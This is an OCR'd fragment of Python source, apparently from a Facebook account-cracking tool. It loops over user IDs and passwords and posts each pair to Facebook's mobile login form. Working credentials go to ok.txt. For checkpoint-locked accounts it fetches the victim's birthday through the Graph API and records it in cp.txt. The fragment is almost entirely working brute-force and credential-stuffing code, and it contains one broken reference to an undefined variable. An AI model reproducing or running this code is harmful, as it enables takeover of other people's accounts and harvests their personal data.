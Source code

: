 		kwargs = {}
		pw = pw.lower()
		ses = requests.Session()
		ses.headers.update({"origin": "https://mbasic.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "mbasic.facebook.com", "referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
		p = ses.get("https://mbasic.facebook.com/login/?next&ref=dbl&refid=8").text
		b = parser(p,"html.parser")
		bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
		for i in b("input"):
			try:
				if i.get("name") in bl:kwargs.update({i.get("name"):i.get("value")})
				else:continue
			except:pass
		kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
		qobil = ses.post("https://mbasic.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fmbasic.facebook.com%2F&lwv=100&refid=8",data=kwargs)
		if "c_user" in ses.cookies.get_dict().keys():
			kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]).replace("noscript=1;", "")
			print("\r \x1b[1;32m[prem-OK] %s • %s • %s\033[0;97m"%(uid, pw, send.json()["access_token"]))
			ok.append("%s | %s"%(uid, pw))
			open("ok.txt","a").write("%s | %s\n"%(uid, pw))
			break
		elif "checkpoint" in ses.cookies.get_dict().keys():
			try:
				token = open("login.txt", "r").read()
				with requests.Session() as ses:
					ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token)).json()["birthday"]
					month, day, year = ttl.split("/")
					month = bulan_ttl[month]
					print("\r\x1b[1;33m [prem-CP] %s • %s • %s %s %s\033[0;97m"%(uid, pw, day, month, year))
					cp.append("%s | %s"%(uid, pw))
					open("cp.txt","a").write("%s | %s | %s\n"%(uid, pw, ttl))
					open("checkcp.txt","a").write("%s | %s | %s\n"%(uid, pw, ttl))
					break
			except (KeyError, IOError):
				day = (" ")
				month = (" ")
				year = (" ")
			except:pass
			print("\r\x1b[1;33m [prem-CP] %s • %s\033[0;97m        "%(uid, pw))
			cp.append("%s | %s"%(uid, pw))
			open("cp.txt","a").write("%s | %s\n"%(uid, pw))
			open("checkcp.txt","a").write("%s | %s\n"%(uid, pw))
			break
		else:
			continue
